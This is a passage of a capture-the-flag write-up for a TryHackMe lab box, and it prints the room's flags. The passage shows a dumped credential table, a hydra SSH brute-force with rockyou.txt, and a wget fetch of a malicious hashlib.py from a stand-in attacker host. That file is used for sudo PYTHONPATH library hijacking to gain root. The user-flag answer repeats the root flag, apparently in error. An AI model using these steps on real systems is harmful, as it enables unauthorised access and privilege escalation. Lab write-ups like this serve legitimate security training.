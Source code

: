 ```bash
| 1    | smokey@email.boop | smokey     | My_P@ssW0rd123 |
| 2    | researcher@m.com  | researcher | password       |
+------+-------------------+------------+----------------+
...
```

![image](https://github.com/user-attachments/assets/d556c288-0d78-4195-a46d-03902bb0ee49)

![image](https://github.com/user-attachments/assets/6d137507-6bc2-48f3-aa28-c0b9adeca9aa)

<h3>hydra</h3>

```bash
:~/Biblioteca# hydra -l 'hazel' -P /usr/share/wordlists/rockyou.txt biblioteca ssh -t 50
```

![image](https://github.com/user-attachments/assets/088d15f8-5d97-4c3a-8301-90f61bfd81c8)

<h3>ssh</h3>

```bash
:~/Biblioteca# ssh hazel@biblioteca
```

![image](https://github.com/user-attachments/assets/e50422de-e525-455a-81a4-dc748d191d5f)

```bash
hazel@ip-xx-xx-xxx-xx:~$ pwd
/home/hazel
hazel@ip-xx-xx-xxx-xx:~$ ls
hasher.py  user.txt
hazel@ip-xx-xx-xxx-xx:~$ cat user.txt
```

![image](https://github.com/user-attachments/assets/457dc5cd-ede2-4d73-85ba-24ec6b32562b)

<h3>hasher.py</h3>

![image](https://github.com/user-attachments/assets/50d3e7ec-f664-455f-b70f-c6bbe9f7a876)

<h3>sudo -l</h3>

![image](https://github.com/user-attachments/assets/dd8e2eda-02c1-45f1-b3ba-bc5c36ca4a15)

![image](https://github.com/user-attachments/assets/ee75dbf0-d751-4a19-96b5-860ba8c10d1a)

<br>

> 1.2. <em>What is the user flag?</em> Hint : <em>Weak password</em><br><a id='1.2'></a>
>> <strong><code>THM{PytH0n_LiBr@RY_H1j@acKIn6}</code></strong><br>
<p></p>

```bash
hazel@ip-xx-xx-xxx-xx:/tmp$ wget http://AttackIP:8000/hashlib.py
...
hazel@ip-xx-xx-xxx-xx:/tmp$ chmod +x hashlibb.py
hazel@ip-xx-xx-xxx-xx:/tmp$ chmod +x hashlib.py
hazel@ip-xx-xx-xxx-xx:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
rootl@ip-xx-xx-xxx-xx:/tmp# ls /root
root.txt  snap
rootl@ip-xx-xx-xxx-xx:/tmp# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
rootl@ip-xx-xx-xxx-xx:/tmp# 
```
